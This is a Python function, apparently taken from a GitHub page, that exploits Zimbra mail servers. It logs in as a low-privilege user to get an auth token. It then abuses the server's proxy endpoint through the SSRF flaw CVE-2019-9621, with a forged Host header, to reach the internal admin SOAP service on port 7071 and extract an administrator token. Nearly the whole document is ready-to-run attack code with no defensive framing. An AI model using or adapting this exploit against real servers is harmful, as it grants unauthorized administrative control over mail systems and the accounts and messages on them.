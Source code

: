 ```
def lowtoken_to_admintoken_by_SSRF(uri,username,password):
    request_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
       <soap:Header>
           <context xmlns="urn:zimbra">
           </context>
       </soap:Header>
       <soap:Body>
         <AuthRequest xmlns="{xmlns}">
            <account by="adminName">{username}</account>
            <password>{password}</password>
         </AuthRequest>
       </soap:Body>
    </soap:Envelope>
    """
    print("[*] Try to auth for low token")
    try:
      r=requests.post(uri+"/service/soap",data=request_body.format(xmlns="urn:zimbraAccount",username=username,password=password),verify=False)
      if 'authentication failed' in r.text:
        print("[-] Authentication failed for %s"%(username))
        return False
      elif 'authToken' in r.text:
        pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")
        low_token = pattern_auth_token.findall(r.text)[0]
        print("[+] Authentication success for %s"%(username))
        print("[*] authToken_low:%s"%(low_token))
        headers = {
        "Content-Type":"application/xml"
        }
        headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+low_token+";"
        headers["Host"]="foo:7071"
        print("[*] Try to get admin token by SSRF(CVE-2019-9621)")    
        s = requests.session()
        r = s.post(uri+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=request_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
        if 'authToken' in r.text:
          admin_token =pattern_auth_token.findall(r.text)[0]
          print("[+] Success for SSRF")
          print("[+] ADMIN_TOKEN: "+admin_token)
          return admin_token
        else:
          print("[!]")
          print(r.text)
      else:
        print("[!]")
        print(r.text)
    except Exception as e:
        print("[!] Error:%s"%(e))
        exit(0)
```
